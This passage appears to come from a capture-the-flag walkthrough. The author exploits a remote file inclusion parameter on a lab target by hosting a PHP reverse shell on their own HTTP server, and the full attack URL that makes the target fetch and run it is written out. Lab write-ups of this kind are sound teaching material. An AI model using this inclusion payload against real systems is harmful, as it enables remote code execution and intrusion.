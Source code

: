 Apparently we can create a http server in our machine, hosting a php reverse shell that will be executed by the target… Let’s try:

After the http server is set up, he have to navigate to:

[`http://10.10.25.208/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.10.10:8000/php-reverse-shell.php`](http://10.10.25.208/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.10.10:8000/php-reverse-shell.php)

<figure><img src="../../.gitbook/assets/imagen (6).png" alt=""><figcaption></figcaption></figure>

And we get a reverse shell, awesome!

<figure><img src="../../.gitbook/assets/Untitled 38.png" alt=""><figcaption></figcaption></figure>
